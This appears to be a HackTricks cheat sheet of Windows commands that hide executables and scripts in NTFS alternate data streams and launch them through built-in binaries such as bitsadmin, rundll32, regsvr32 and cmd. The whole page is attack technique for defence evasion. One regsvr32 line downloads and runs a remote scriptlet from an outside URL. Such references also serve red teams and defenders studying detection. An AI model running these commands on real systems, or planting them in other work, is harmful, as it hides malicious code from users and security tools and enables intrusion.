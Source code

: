 ```bash
* Powershell.exe
Invoke-CimMethod -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = C:\ads\folder:file.exe}

* Regedit.exe
regedit c:\ads\file.txt:regfile.reg

* Bitsadmin.exe
bitsadmin /create myfile
bitsadmin /addfile myfile c:\windows\system32\notepad.exe c:\data\playfolder\notepad.exe
bitsadmin /SetNotifyCmdLine myfile c:\ADS\1.txt:cmd.exe NULL
bitsadmin /RESUME myfile

* AppVLP.exe
AppVLP.exe c:\windows\tracing\test.txt:ha.exe

* Cmd.exe
cmd.exe - < fakefile.doc:reg32.bat
https://twitter.com/yeyint_mth/status/1143824979139579904

* Ftp.exe
ftp -s:fakefile.txt:aaaa.txt
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* ieframe.dll , shdocvw.dll (ads)
echo [internetshortcut] > fake.txt:test.txt && echo url=C:\windows\system32\calc.exe >> fake.txt:test.txt rundll32.exe ieframe.dll,OpenURL C:\temp\ads\fake.txt:test.txt
rundll32.exe shdocvw.dll,OpenURL C:\temp\ads\fake.txt:test.txt
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* bash.exe
echo calc > fakefile.txt:payload.sh && bash < fakefile.txt:payload.sh
bash.exe -c $(fakefile.txt:payload.sh)
https://github.com/sailay1996/misc-bin/blob/master/ads.md

* Regsvr32
type c:\Windows\System32\scrobj.dll > Textfile.txt:LoveADS
regsvr32 /s /u /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct Textfile.txt:LoveADS
```
<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
